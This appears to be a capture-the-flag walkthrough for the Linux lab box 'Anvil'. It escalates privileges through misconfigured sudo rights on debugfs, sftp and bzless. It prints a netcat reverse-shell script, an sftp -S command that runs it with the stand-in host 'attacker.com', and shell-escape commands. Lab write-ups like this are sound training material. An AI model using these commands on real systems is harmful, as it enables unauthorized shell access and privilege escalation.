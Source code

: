 # Box: Anvil
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/540b796a-a533-4954-b271-825e14715886)

Lets connect to the machine

command:```nc -t 10.0.40.10 1337```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/008fc3e5-46c3-407c-a88a-fab135dd2dd6)

cool we are connected to the target.

Running the ```sudo -l``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/469b4ce8-49a3-4b94-a37a-ad2f885d9ee3)

We can see that user ```silver``` can run the binary ```debugfs``` with sudo privileges. This is what we call ```Misconfigured SUDO Privileges```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/debugfs/), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4684de10-2019-44b0-bf11-e2b06239fde6)

So, to escalate our privileges

command:```sudo -u silver /sbin/debugfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/326117dd-f7bb-4267-ba24-46c0a73b547d)

Good, now run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef7d5dd7-87e3-4a51-8449-3450d840922d)

Nice, we were able to successfully escalate our privileges to user ```silver```

Now, lets further escalate our privileges

Running the ```sudo -l``` command again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d6b10ccb-e766-4617-a4cf-8658b06314b4)

So, user ```gold``` has ```sudo``` permissions to run the binary ```sftp```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/sftp/#sudo), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/40fe3caa-f578-40b8-a5c0-1cdf7e06ce11)

So we can try to do something like this

command:```HOME=blackanon@attacker.com```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a7801fbd-eacc-4043-95f2-1fd60c4bec33)

cool, now run this ```sudo -u gold /usr/bin/sftp $HOST```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8619f907-f430-4fae-a9d2-130d8e6658f4)

oops, we can see that it's ssh running here. So, I decided to trigger the ```help``` menu

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/48337434-ae85-4d2e-b3e1-eb8804b196d1)

We can use that switch to run a program, this means we can try to execute a reverse shell

Payload
```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f
```

Save this in a ```.sh``` file and send it over to the target

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b8f56e07-b469-470f-aad8-5ff784b69f10)

Cool, now lets execute that command again, but this time ensure you have your netcat listener set up

command
```
chmod +x bash.sh
HOST=blackanon@attacker.com
sudo -u gold /usr/bin/sftp -S /tmp/bash.sh $HOST
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccb23a8-197d-4424-9d63-c7550b1b0765)

It worked, we got a shell as user ```gold```.

Further escalating our privileges

Running the ```sudo -l``` command again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3d6af27d-4339-4033-b688-61153312e06e)

We see that user ```ETSCTF``` can run the binary ```bzless``` with sudo privileges

To do this,

command:```sudo -u ETSCTF /bin/bzless```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/acafe978-11e9-431b-a149-dd27fffb0ac8)

It requires a file parameter, what if we tried something like this

command:```sudo -u ETSCTF /bin/bzless /bin/bash```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1eb66e74-4404-418e-9b88-45a644b3ee0e)

We get this, so just run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa6a7453-8f0a-46e1-a579-e3f7485daae4)

Hit the enter key,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ca38ddab-f0b2-4462-90d7-fa969b1694a8)

It worked hehe. 

We have successfully completed this exercise😎



That will be all for today
<br><br>
[Back To Home](../../index.md)












